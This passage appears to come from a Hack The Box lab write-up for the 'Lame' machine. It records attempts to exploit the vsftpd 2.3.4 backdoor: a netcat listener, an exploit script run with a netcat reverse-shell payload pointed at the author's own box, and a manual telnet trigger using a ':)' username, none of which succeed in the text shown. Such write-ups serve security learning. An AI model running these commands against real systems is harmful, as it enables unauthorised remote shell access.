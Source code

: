 Let's try a netcat reverse shell. First, setup a listener:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
```

Then attempt to send a shell with netcat back to our box:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ python3 vsftpd_234_exploit.py 10.10.10.3 21 'nc 10.10.14.13 9001 -e /bin/bash'
[*] Attempting to trigger backdoor...
[+] Triggered backdoor
[*] Attempting to connect to backdoor...
```

This hung for a while. I eventually terminated it and tried a simpler command.

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ python3 vsftpd_234_exploit.py 10.10.10.3 21 id
[*] Attempting to trigger backdoor...
[+] Triggered backdoor
[*] Attempting to connect to backdoor...
```

No luck.

## Trying the Exploit Manually

Instead, I tried to exploit it manually in case the exploit was broken. I followed a [great guide](https://www.hackingtutorials.org/metasploit-tutorials/exploiting-vsftpd-metasploitable/) to do this, with a cool rundown of the exploit code:

![](/assets/images/blogs/Pasted image 20210503225240.png)

The exploit involves triggering the backdoor by connecting to port 21 and supplying a username suffixed with a smiley face `:)`. Then the backdoor should open on port 6200 and give you a shell:

```bash
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ telnet 10.10.10.3 21
Trying 10.10.10.3...
Connected to 10.10.10.3.
Escape character is '^]'.
220 (vsFTPd 2.3.4)
USER user:)
331 Please specify the password.
PASS pass
^]
telnet> Connection closed.
┌──(mac㉿kali)-[~/Documents/HTB/lame/vsftpd-2.3.4-exploit]
└─$ telnet 10.10.10.3 6200
Trying 10.10.10.3...
^C
```
